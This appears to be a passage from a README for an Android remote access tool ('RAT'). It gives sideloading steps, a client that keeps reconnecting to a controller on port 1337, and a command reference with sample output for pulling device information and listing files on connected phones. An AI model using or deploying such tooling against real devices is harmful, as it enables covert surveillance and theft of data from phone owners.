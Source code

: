 #### Method 2: Manual Installation
1. Transfer APK to device
2. Enable "Unknown Sources" in Settings
3. Install APK manually
4. Launch the app

### Client Configuration
The client automatically connects to:
- **Host**: `10.0.2.2` (emulator) or configure in source
- **Port**: `1337`
- **Reconnect**: Every 10 seconds if disconnected

## Command Reference

### Basic Commands

#### `ping`
Test connection and response time.
```
Session[1]> ping
Response: {"status":"success","timestamp":1751234567890}
```

#### `device_info`
Get comprehensive device information.
```
Session[1]> device_info
Response: Device model, Android version, memory, storage, network info, etc.
```

#### `sessions`
List all active sessions (from main RAT prompt).
```
RAT> sessions
Active sessions:
[1] 127.0.0.1:12345 (Pixel_6, Android 13)
[2] 192.168.1.100:54321 (Galaxy_S21, Android 12)
```

### File Operations

#### `file_dirs`
Get common Android directories.
```
Session[1]> file_dirs
Response: /sdcard, /storage/emulated/0, Downloads, Pictures, etc.
```

#### `file_list <path>`
List files and directories.
```
Session[1]> file_list /sdcard
Session[1]> file_list /sdcard/Download
Response: File names, sizes, permissions, timestamps
```
